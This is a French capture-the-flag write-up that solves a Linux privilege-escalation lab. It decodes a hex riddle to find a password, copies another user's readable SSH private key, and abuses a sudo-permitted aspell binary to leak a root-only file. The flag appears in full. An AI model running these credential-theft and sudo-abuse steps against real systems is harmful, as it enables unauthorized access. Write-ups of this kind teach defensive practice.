

# Yer a Wizzard #2

## Contexte
- **Nom du challenge** : Yer a Wizzard #2
- **Catégorie** : Privilege Escalation
- **Difficulté** : Eazy
- **Objectif** : lire le fichier `/root/root.txt`, ce qui nécessite les droits **root**.
- **Point de départ** : accès en tant qu'utilisateur `hagrid`
  (identifiants obtenus dans le challenge *Yer a Wizzard*).

---

## 1. Reconnaissance

Connecté en tant que `hagrid`, je vérifie d'abord si je peux exécuter des commandes en `sudo` :

```bash
sudo -l
```

`hagrid` n'a **aucun droit sudo**. Je cherche donc un autre vecteur en explorant les
autres utilisateurs de la machine :

```bash
ls -la /home
```

```
drwx------ 1 dumbledore dumbledore 4096 Aug 27 09:43 dumbledore
drwxr-xr-x 1 hagrid     hagrid     4096 Sep 23 09:13 hagrid
drwx--x--x 1 harry      harry      4096 Aug 27 09:43 harry
```

Trois utilisateurs : `dumbledore`, `hagrid`, `harry`. L'objectif va être de rebondir
vers ces comptes pour finir root.

---

## 2. Rebond vers `dumbledore`

### 2.1 Le fichier riddle.txt

Dans le home de `hagrid`, il y as un fichier `riddle.txt` :

```bash
ls -l /home/hagrid
```

```
-rwxrwxr-x 1 hagrid hagrid 2097 Jul 23 13:42 riddle.txt
-rw-r--r-- 1 hagrid hagrid   97 Jul 23 13:42 user.txt
```

Le fichier appartient à `hagrid` (mon utilisateur), je peux donc **modifier ses droits**
pour être sûr de pouvoir le lire :

```bash
chmod 775 riddle.txt
cat riddle.txt
```

Contenu (extrait) :

```
Professor dumbledore gave me this riddle, but I don't think I can decipher this.
He said "take a crack at it, would you?" which is odd for him to say, I guess?

e1f22cea2a1c41f047b36b505a6aede8...   (une quinzaine de lignes hexadécimales)
...
```

### 2.2 Décodage du riddle

Chaque ligne est de l'**hexadécimal**. Je décode l'ensemble ligne par ligne :

La plupart des lignes donnent du binaire illisible, **sauf une** :

```
In fact, this was simple, truly, the password is ByMerlinBeard!
```

### 2.3 Connexion à dumbledore

```bash
ssh dumbledore@<IP>
# password : ByMerlinBeard!
```

Connexion réussie. Je vérifie à nouveau les droits sudo :

```bash
sudo -l
```

`dumbledore` n'a **toujours pas** de droits sudo.


---

## 3. Rebond vers `harry`

### 3.1 Lecture de la clé SSH privée

Le home de `harry` a les permissions `drwx--x--x` : le bit `x` est
donné à tout le monde. **On ne peut pas lister le dossier**, mais on peut **traverser**
vers un sous-dossier dont on connaît le nom. J'essaie `.ssh` :

```bash
ls -la /home/harry/.ssh
```

```
-rw-r--r-- 1 harry headmaster 100 Jul 23 13:42 authorized_keys
-rw-r--r-- 1 harry headmaster 411 Jul 23 13:42 id_ed25519
-rw-r--r-- 1 harry headmaster 100 Jul 23 13:42 id_ed25519.pub
```

La **clé privée** `id_ed25519` est lisible par tous (`-rw-r--r--`) : mauvaise
configuration des permissions. Je la récupère :

```bash
cp /home/harry/.ssh/id_ed25519 /tmp/key
chmod 600 /tmp/key
```

### 3.2 Connexion à harry par clé

```bash
ssh -i /tmp/key harry@<IP>
```

Connexion réussie **sans mot de passe** grâce à la clé privée.

---

## 4. Élévation de privilèges (harry → root)

### 4.1 Découverte du vecteur

```bash
sudo -l
```

```
User harry may run the following commands on hogwarts:
    (root) NOPASSWD: /usr/bin/aspell
```

`harry` peut exécuter **`aspell` en root sans mot de passe**. `aspell` est un correcteur
orthographique — il n'est pas fait pour lire des fichiers protégés, mais on peut détourner
son comportement pour lire `/root/root.txt`.

### 4.2 Lecture du fichier root via aspell

L'option `-c` (check) ne fonctionne pas directement. En cherchant les options d'`aspell`,
l'astuce est d'utiliser `--conf` en pointant vers le fichier cible :
`aspell` tente de le lire comme un fichier de configuration et **recrache son contenu dans
le message d'erreur** (la ligne inconnue est affichée) :

```bash
sudo aspell --conf /root/root.txt
```

```
Error: /root/root.txt:1: The key "53565a4a52564d324d315648546b56474e6a564455...==" is unknown.
```

Le contenu de `/root/root.txt` est donc cette longue chaîne (affichée comme une "clé
inconnue" par aspell).



---

## 5. Décodage du flag

La chaîne récupérée est encodée en cascade : **HEX → Base64 → Base32**.

```bash
# Etape 1 : HEX -> Base64
echo "53565a4a52564d324d315648546b56474e6a56445530..." | xxd -r -p
# -> SVZJRVM2M1VHTkVGNjVDU09WS0dRWFpSS1JQVENOSzdHUlBUUU1aVU9WMkRDWlNWSlJQVEkzU0VMNTJERzRUU0dFNEVZTTI3T1JVREMzUlpQVUZBPT09PQ==

# Etape 2 : Base64 -> Base32
echo "SVZJRVM2M1VHTkVGNjVDU09WS0dRWFpS..." | base64 -d
# -> IVIES63UGNEF65CSOVKGQXZRKRPTCNK7GRPTQMZUOV2DCZSVJRPTI3SEL52DG4TSGE4EYM27ORUDC3RZPUFA====

# Etape 3 : Base32 -> flag
echo "IVIES63UGNEF65CSOVKGQXZRKRPTCNK7..." | base32 -d
# -> EPI{t3H_tRuTh_1T_15_4_834ut1fUL_4nD_t3rr18L3_th1n9}
```

---

## 6. Flag

```
EPI{t3H_tRuTh_1T_15_4_834ut1fUL_4nD_t3rr18L3_th1n9}
```

**Emplacement** : `/root/root.txt`, lisible uniquement avec les droits root, obtenu en
détournant `aspell` (exécutable en sudo par `harry`), puis décodé HEX → Base64 → Base32.

---

## Récapitulatif de la chaîne d'attaque

| Étape | De → Vers | Vecteur exploité |
|-------|-----------|------------------|
| 1 | `hagrid` → `dumbledore` | Mot de passe caché dans `riddle.txt` (hex) |
| 2 | `dumbledore` → `harry` | Clé SSH privée lisible dans `/home/harry/.ssh` |
| 3 | `harry` → `root` | `sudo aspell` (NOPASSWD) détourné pour lire `/root/root.txt` |

---

## Outils utilisés
- `ssh` — connexions et rebonds entre utilisateurs
- `xxd` — décodage hexadécimal
- `base64`, `base32` — décodage du flag
- `sudo` / `aspell` — élévation de privilèges
- `chmod` — modification des permissions du fichier riddle.txt

## Techniques utilisées
- **Énumération** des utilisateurs et de leurs permissions (`sudo -l`, `ls -la /home`)
- **Rebond d'utilisateur** en utilisateur (lateral movement)
- Exploitation de **permissions de fichiers mal configurées** (clé SSH privée lisible)
- **Décodage / cracking** en cascade (HEX, Base64, Base32)
- **Privilege escalation via sudo** (binaire `aspell`, cf. GTFOBins)
